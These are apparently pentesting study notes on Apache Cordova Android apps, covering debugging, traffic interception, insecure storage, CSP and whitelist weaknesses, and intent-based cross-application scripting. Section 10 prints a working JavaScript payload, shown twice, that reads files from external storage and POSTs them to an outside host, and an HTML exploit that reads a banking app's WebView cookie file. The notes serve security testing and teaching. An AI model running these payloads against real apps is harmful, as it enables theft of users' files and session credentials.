

# Apache Cordova Security Notes

---

## Table of Contents

1. [What is Apache Cordova?](#1-what-is-apache-cordova)
2. [Architecture Overview](#2-architecture-overview)
3. [Identifying a Cordova App](#3-identifying-a-cordova-app)
4. [APK Structure](#4-apk-structure)
5. [config.xml Deep Dive](#5-configxml-deep-dive)
6. [Debugging Cordova Applications](#6-debugging-cordova-applications)
7. [Intercepting Network Traffic](#7-intercepting-network-traffic)
   - [Traffic Interception Mindmap](#traffic-interception-mindmap)
8. [Insecure Storage of Sensitive Information](#8-insecure-storage-of-sensitive-information)
9. [Insecure CSP and Whitelist Implementation](#9-insecure-csp-and-whitelist-implementation)
10. [Cordova Vulnerabilities](#10-cordova-vulnerabilities)
11. [Pentesting Focus Areas](#11-pentesting-focus-areas)
12. [Resources](#12-resources)

---

## 1. What is Apache Cordova?


It's important to be used in case we need to transfer our web application into a lightweight mobile application.

<mark style="background: #FFF3A3A6;">Apache Cordova was originally created by Nitobi in 2008 as PhoneGap but was later donated to the Apache Software Foundation and renamed Apache Cordova in 2011. With its ease of use and access to device hardware features, Cordova has enabled companies to quickly and easily create mobile applications that can be distributed on various app stores.</mark>

We can say that when Adobe PhoneGap died, we saw Cordova. 

The idea is that Cordova apps use WebView as the main building block for their apps.

---

## 2. Architecture Overview

### WebView

The **WebView** object, provided by the Android Framework, allows developers to embed a browser within their own apps.

The WebView is a native component that provides a web browsing context within the app, allowing developers to create app-like experiences using web technologies.

```
Android App
   │
   └── Activity
         │
         └── Cordova WebView
                │
                ├── HTML
                ├── CSS
                └── JavaScript
```

So we can use different APIs to make it easy for us to access different device features.

### Apache Cordova Application Architecture


> We only have 1 activity.

**Three Main Components:**

- **WebView**
  
  - Apache Cordova's WebView component is a native component that is used to render the application's user interface.
  - It provides a web browsing context within the app, allowing developers to create app-like experiences using web technologies.

- **Web App**
  
  - The WebApp component contains the entire code for the application.
  - It runs as a web app within a native mobile application, with the `index.html` file serving as the entry point and referencing any necessary resources such as CSS, JavaScript, and media files.
  - The Web App container has a crucial file called `config.xml`.
  - This file is also called the global configuration file and many aspects of an app's behavior can be controlled with it.

- **Plugins**
  
  - Apache Cordova plugins are essential components of an application. They enable the use of the device's camera, GPS, and contacts through a common API across different platforms.
  - Apache Cordova offers pre-built plugins for easy access to these hardware features.

### Network Communication Paths

This creates two distinct network communication paths:

- **The Native Path (Java/Kotlin)**: Standard Java apps use libraries like `okhttp3` for network requests. This traffic flows through the Android system's Java SSL layer, which is why you can easily intercept it with a proxy and a custom CA certificate.
- **The WebView Path (JavaScript)**: Cordova app logic is written in JavaScript/HTML. When this code makes an AJAX request (e.g., using `fetch` or `XMLHttpRequest`), it doesn't use the Java networking stack. Instead, it uses the WebView's own internal network stack, which is powered by **Chromium's C++ libraries** (this is the case for modern Android WebView).

The root cause of the interception difficulty is that Cordova apps run inside a **WebView**, which is essentially a sandboxed instance of a browser (like Chrome) embedded within a native Android app.

---

## 3. Identifying a Cordova App

**Method 1 — Assets Folder:**

1. Decompile the app.
2. Go to the assets folder — if you find a folder named `www`, you are dealing with Cordova.


**Method 2 (Easier) — AndroidManifest.xml:**
Open `AndroidManifest.xml` and search for the keyword `"Cordova"`.


---

## 4. APK Structure

```
CorodvaApp.apk/  
├─ assets/  
│ ├─ www/  => **Main Focus**
│ │ ├─ css/  
│ │ ├─ js/  
│ │ ├─ plugins/  
│ │ ├─ index.html  
│ │ ├─ cordova_plugins.js  
│ │ ├─ cordova.js  
├─ META-INF/  
├─ res/  
│ ├─ xml/  
│ │ ├─ config.xml  => **Important**
├─ AndroidManifest.xml  
├─ classes.dex  
├─ resources.arsc
```

---

## 5. config.xml Deep Dive

The most important settings to look at:

- **widget**: The root element of the file that defines the app's ID, version, and namespace.
- **name**: The name of the app.
- **description**: A description of the app.
- **content**: The entry point for the app.
- **access**: A list of domains that the app is allowed to access.
- **preference**: A set of preferences that control the app's behaviour.
- **feature**: A list of Apache Cordova features that the app requires.
- **plugin**: A list of Apache Cordova plugins that the app requires.

> Developers find it easy to store stuff in `config.xml` files directly in plaintext. Thus, we can find **hardcoded sensitive information** in the config.xml file. 

---

## 6. Debugging Cordova Applications

When the app is installed, it uses the built-in WebView to fetch resources and communicate with the backend server.

### Enable Debugging

Search for `_setWebContentsDebuggingEnabled_` in `_org.apache.cordova.SystemWebEngine_`:

- If `true` → we can debug the application.
- If `false` → we cannot (but see note below).


> **Note:** During research, most Apache Cordova applications have this configuration set to `true` — either by default or by developer choice. You can modify the smali code of the application to change the value to `true` in case it is already set to `false`.

The idea of the Frida script is that it dynamically allows `setWebContentsDebuggingEnabled` to be `true`, which helps intercept requests, then edits the defined functions of the browser to log the requests.

### Start Debugging (Step-by-Step)

1. Open the Cordova application on the phone. 
2. Open Chrome on the PC and navigate to: `chrome://inspect/#devices`
3. In the "Remote Target" section, find the device entry along with the application package name. 
4. You will see options such as "inspect, pause, trace" — we are interested in **"inspect"**.
5. Click "inspect" to open developer tools for the Cordova application. 
6. Here you can analyze and debug scripts and plugins, and add breakpoints to the entire application logic. 

---

## 7. Intercepting Network Traffic

### Via Remote Debugging

As we attach the app to a remote debugger, we can also monitor network traffic via developer tools. The **"Network"** tab shows all ongoing HTTP requests/responses.

1. Open the Apache Cordova application and attach the app to Chrome's remote debugger. 
2. Click "inspect" → navigate to the **"Network"** tab.
3. Perform any action in the application that sends an HTTP request — it will be captured in the Network tab. 

> This allows us to monitor, intercept, and modify all network traffic of Apache Cordova applications **even if SSL certificate pinning is implemented**.

### Traffic Interception Mindmap

Two network paths exist inside every Cordova app — each needs a different interception strategy. The map below shows how to decide which approach to take:



| Path    | Stack          | Burp works? | Best method             |
| ------- | -------------- | ----------- | ----------------------- |
| WebView | Chromium C++   | ❌           | Chrome DevTools / Frida |
| Native  | okhttp3 / Java | ✅           | Burp Suite + custom CA  |

> **Rule of thumb:** start with Chrome DevTools — it taps the WebView directly and bypasses SSL pinning for free on that path.

---

### Simple WebView Snippet (Vulnerable Example)

A simple WebView usage:

```java
String url = "HTTP://www.google.com"; 
WebView webView = ... 
webView.loadUrl(url);
```

Vulnerable example:

```java
String url = getIntent().getStringExtra("url"); 
WebView webView = ... 
webView.loadUrl(url);
```

#### Prevention

This code is vulnerable to `Cross-Application Scripting` (XAS). This attack can be dangerous if `WebSettings.setJavaScriptEnabled(true)` is enabled.

---

## 8. Insecure Storage of Sensitive Information

### Sensitive Information in Browser Local Storage

**Attack scenario:**

1. XZY bank's mobile banking application asks users to log in for the first time. After login, the application stores some sensitive information about the user in the WebView browser's local storage. 
2. The attacker has physical access to the victim's device.
3. The attacker attaches the XYZ Cordova application to the remote debugger and goes to the **"Application"** tab in developer tools.
4. The attacker can access the contents of **"Local Storage"**. 
5. The attacker grabs the sensitive information stored in local storage. This information can also be stolen with other vulnerabilities such as insecure whitelisting of domains, XSS, insecure CSP, etc.

### Hardcoded Sensitive Information in config.xml

Developers find it easy to store stuff in `config.xml` files directly in plaintext. 

---

## 9. Insecure CSP and Whitelist Implementation

### Unrestricted Access

The Cordova-plugin-whitelist plugin implements a whitelist in Apache Cordova apps, but sometimes developers don't use it. This lets external domains access the app without restrictions through Apache Cordova's WebView requests. 

### Insecure Whitelisted Domains

The **Cordova-plugin-whitelist** plugin restricts network access to authorized domains only. By default, Apache Cordova apps only allow requests to the app's origin domain.

We need to check the whitelist configuration to leverage the attack surface against vague and overly permissive whitelisted domains.

- **`<access origin="*" />`** in `config.xml` contains whitelisted domains.
- **`<allow-navigation href="*" />`** allows navigation to all URLs within the app.


> For instance, if any subdomain `https://*.pusher.com` is vulnerable, or the attacker has control over any subdomain, they can serve malicious content via Apache Cordova applications.

### Insecure CSP Implementation

The plugin also provides support for [Content Security Policy](https://payatu.com/blog/content-security-policy/) (CSP) policies, crucial for protecting against XSS. This is particularly important because the whitelist filters **do not apply** to WebSocket connections and the HTML5 `<video>` tag.


**Common CSP issues:** 

1. **Overly permissive WebSocket domains:**
   The `connect-src '*' ws: wss:` policy allows connections to any domain over WebSocket. Allowing connections to any domain can potentially expose the application to security risks.

2. **Use of `unsafe-inline` for script execution:**
   The `script-src 'unsafe-inline'` policy allows inline scripts to be executed. This bypasses protection against code injection attacks such as XSS. It's recommended to avoid `unsafe-inline` and use external script files instead.

---

## 10. Cordova Vulnerabilities

### XAS via the Intent `url` Extra Parameter

```java
public void loadUrl(String url) {
    if (url.equals("about:blank") || url.startsWith("javascript:")) {
        this.loadUrlNow(url);
    } else {
        String initUrl = this.getProperty("url", null);

        // If first page of app, then set URL to load to be the one passed in
        if (initUrl == null) {
            this.loadUrlIntoView(url);
        }
        // Otherwise use the URL specified in the activity's extras bundle
        else {
            this.loadUrlIntoView(initUrl);
        }
    }
}
```

Since the `url` parameter is taken from `getIntent().getExtras()`, it can be provided externally. A malicious caller could launch the Activity with an Intent bundle containing a URL of their choice, which Cordova will then load and render in the WebView.

We can make it load malicious JavaScript scripts. Here are two example malicious scripts:

**Script 1:**

```javascript
document.addEventListener("deviceready", init, false);

function init() {
    listDir(cordova.file.externalRootDirectory);
}

function fail(e) {}

function gotFile(fileEntry) {
    fileEntry.file(function(file) {
        var reader = new FileReader();
        reader.onloadend = function(e) {
            var http = new XMLHttpRequest();
            var url = "http://192.168.1.246/uploadFile";
            var params = "filename=" + fileEntry.name + "&content=" + this.result;
            http.open("POST", url, true);
            http.send(params);
        }
        reader.readAsText(file);
    });
}


function listDir(path) {
    window.resolveLocalFileSystemURL(path,
        function(fileSystem) {
            var reader = fileSystem.createReader();
            reader.readEntries(
                function(entries) {
                    for (var i = 1; i < entries.length; i++) {
                        alert("Plik = " + entries[i].name);
                        if (entries[i].isFile == 1)
                            window.resolveLocalFileSystemURL(path + entries[i].name, gotFile, fail);
                    }
                },
                function(err) {}
            );
        },
        function(err) {}
    );
}
```

**Script 2:**

```javascript
document.addEventListener("deviceready", init, false);

function init() {
    listDir(cordova.file.externalRootDirectory);
}

function fail(e) {}

function gotFile(fileEntry) {
    fileEntry.file(function(file) {
        var reader = new FileReader();
        reader.onloadend = function(e) {
            var http = new XMLHttpRequest();
            var url = "http://192.168.1.246/uploadFile";
            var params = "filename=" + fileEntry.name + "&content=" + this.result;
            http.open("POST", url, true);
            http.send(params);
        }
        reader.readAsText(file);
    });
}


function listDir(path) {
    window.resolveLocalFileSystemURL(path,
        function(fileSystem) {
            var reader = fileSystem.createReader();
            reader.readEntries(
                function(entries) {
                    for (var i = 1; i < entries.length; i++) {
                        alert("Plik = " + entries[i].name);
                        if (entries[i].isFile == 1)
                            window.resolveLocalFileSystemURL(path + entries[i].name, gotFile, fail);
                    }
                },
                function(err) {}
            );
        },
        function(err) {}
    );
}
```

We can take anything we need since we are working as the user ID of the application.

<mark style="background: #FFF3A3A6;">It is worth noting that even if the application will not be vulnerable to XSS attacks – if the attacker gains access to the web server of the JavaScript mobile application (e.g. by an Injection type error), it will be beneficial for the attacker to embed malicious HTML/JavaScript code in the rendered application resources, e.g. in the jQuery.js file downloaded from the server. Thanks to this, taking over one web server of a mobile application used by 100,000 users and several lines of JavaScript allows the attacker to steal a list of contacts, take pictures of users, record audio / video, or access the file system of a mobile device. Hacking one server can result in taking control over all mobile devices of users.</mark>

---

### XAS via the Intent `errorurl` Extra Parameter

**Vulnerable Code:**

```java
public void onReceivedError(final int errorCode,
                            final String description,
                            final String failingUrl) {
    final CordovaActivity me = this;

    // If error URL specified, then load it
    final String errorUrl = me.getStringProperty("errorUrl", null);

    if ((errorUrl != null)
            && (errorUrl.startsWith("file://")
            || Config.isUrlWhiteListed(errorUrl))
            && (!failingUrl.equals(errorUrl))) {

        // Load URL on UI thread
        me.runOnUiThread(new Runnable() {
            public void run() {
                // Stop "app loading" spinner if showing
                me.spinnerStop();
                me.appView.showWebPage(errorUrl, false, true, null);
            }
        });
    }
}
```

It is also constrained in that the URL must either be in the whitelist or be of URI scheme `file`. In practice, there are numerous ways an attacker may disrupt the network request and cause the `errorurl` to be loaded. For example, a malicious application could affect connectivity (through the `CHANGE_WIFI_STATE` permission for instance) or simply wait until there is no connectivity.

Alternatively, an on-path remote attacker could cause a 400/500 HTTP response code to be returned in a request.

---

### Same Origin Policy

Code running in the context of the WebView object is subject to the Same-Origin Policy, which specifies that code belonging to some domain can only access the Document Object Model (DOM) of that specific domain.

**File Scheme settings to review:**

- `WebSettings.setAllowUniversalAccessFromFileURLs()`
- `WebSettings.setAllowFileAccessFromFileURLs()`

---

### Remote Drive-by Browsing Exploitation

**Attack flow:**

1. **Naive Browsing.** The victim browses to a website containing malicious code.
2. **Drive-by Download.** The malicious code automatically causes the victim's browser to download an HTML file to the victim's SD card. The idea is to trick the browser into thinking that the HTML file is not renderable. In some browsers, this can be done by including a `Content-Type` header with some binary meta-type.
3. **Vulnerability Exploitation.** The malicious website also causes the vulnerable Cordova-based app to load the downloaded file in its WebView object. This is done by using the intent URI scheme which causes the browser to generate an Intent object. This Intent triggers one of the Cordova vulnerabilities by referring to the downloaded attacker's HTML file, using a file URI scheme (e.g. `file:///sdcard/Downloads/exploit.html`). It also targets the vulnerable application.
4. **Data Exfiltration.** The loaded attacker's JavaScript code will have read access to any file under the Cordova-based app, since it is run in the context of Cordova and universal access from file URIs is allowed by Cordova. The data can be sent to the attacker using other vulnerabilities.


**Constraints:**

1. Requires that the browser will automatically download the HTML payload.
2. Requires that the target activity will be invokable.
   - For example, some browsers only generate implicit Intent and set the BROWSABLE category, so the target activity must set an appropriate Intent Filter. 
3. Also requires read access permission on External Storage.

**A sophisticated exploit example:**

```html
<html>
<script>
var req = new XMLHttpRequest();

req.open(
    "GET",
    "file:///data/data/com.softwarehouse.bankX/app_webview/Cookies",
    true
);

req.onreadystatechange = function () {
    if (req.readyState == 4) {
        var cookies = req.responseText;

        var offset = cookies.search("sessionCookie") + 19;
        var sessionCookie = encodeURIComponent(
            cookies.substring(offset, offset + 85)
        );

        // Safe local testing only — do not transmit session credentials.
        console.log(sessionCookie);
    }
};

req.send();
</script>
</html>
```

---

## 11. Pentesting Focus Areas

The main focus when pentesting Cordova apps:

- SSL Pinning
- Insecure Storage
- Logging
- Obfuscation
- Tapjacking

### What is Tapjacking?

The word is the combination of "tap" and "jacking" — someone hijacking what a user taps on their smartphone. It is a sort of mobile version of "Clickjacking" for web applications.

The peculiarity of this element is that any taps on it will be passed to the underlying element. So, a malicious app can:

1. Create a "toast" that covers the whole screen.
2. Launch, using an intent, the target application.

**How to solve it:**

- Set the setting [`filterTouchesWhenObscured`](https://developer.android.com/reference/android/view/View#attr_android:filterTouchesWhenObscured) to `true`
- Implement the method [`onFilterTouchEventForSecurity()`](https://developer.android.com/reference/android/view/View#onFilterTouchEventForSecurity\(android.view.MotionEvent\))
- Use a plugin like [`TapjackingProtectionPlugin`](https://github.com/BeDefended/TapjackingProtectionPlugin)

---

## 12. Resources

- [Effortless Pentesting of Apache Cordova Applications](https://payatu.com/blog/effortless-pentesting-of-apache-cordova-applications/)
- [Debugging Cordova Applications](https://www.appknox.com/blog/debugging-cordova-applications)
- [Manage App's Security - Apache Cordova](https://cordova.apache.org/docs/en/latest/guide/appdev/security/)
- [Testing Cordova Applications | Ostorlab](https://blog.ostorlab.co/testing-cordova-applications.html)
- [Security problems of Apache Cordova - steal the entire contents of the phone's memory card with one XSS](https://web.archive.org/web/20250823013254/https://research.securitum.com/security-problems-of-apache-cordova-steal-the-entire-contents-of-the-phone_s-memory-card-with-one-xss/)
- [WebView Security Research (cs.ucr.edu)](https://www.cs.ucr.edu/~heng/pubs/webview_acsac2011.pdf)
- [HTML5 Security - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html)
- [Android pentest: Cordova application - YouTube](https://youtu.be/3mxhlUWC3_w)
- [aparoid: Static and dynamic Android application security analysis](https://github.com/stefan2200/aparoid#1) *(may be good may be bad we don't know)*
- [A Step-by-Step Guide to Uncovering Vulnerabilities in a Mobile App](https://core-jmp.org/2026/04/a-step-by-step-guide-to-uncovering-vulnerabilities-in-a-mobile-app/)
- [Cordova Security Research (depletionmode.com)](https://depletionmode.com/static/posts/files/cordova.pdf) *(listed twice in original)*
- [Common Mobile Security Issues - Part 1: Introduction](https://orionx.foregenix.com/blog/common-mobile-security-issues-part-1-introduction)
- [Common Mobile Security Issues - Part 2: Apache Cordova](https://orionx.foregenix.com/blog/common-mobile-security-issues-part2-apache-cordova)
- [Pentest Report Briar - Cure53](https://www.pentestreports.com/reports/cure53/pentest-report_briar)
- [Cordova and APK Tampering (Medium)](https://medium.com/@karan_gandhi/cordova-and-apk-tampering-8e224e66bb52)
- [Prevent Tapjacking in Cordova Apps (Medium)](https://medium.com/bedefended/prevent-tapjacking-cordova-apps-44863a283c7d)
- [Exploiting Android Browser (ResearchGate)](https://www.researchgate.net/publication/375110871_Exploiting_Android_Browser)
- [Creating an App - Apache Cordova](https://cordova.apache.org/docs/en/latest/guide/cli/) *(a simple start to build an application)*
- [ionic-cordova-webview-pentest-toolkit (GitHub)](https://github.com/KAVINKUMAR-S758/ionic-cordova-webview-pentest-toolkit)
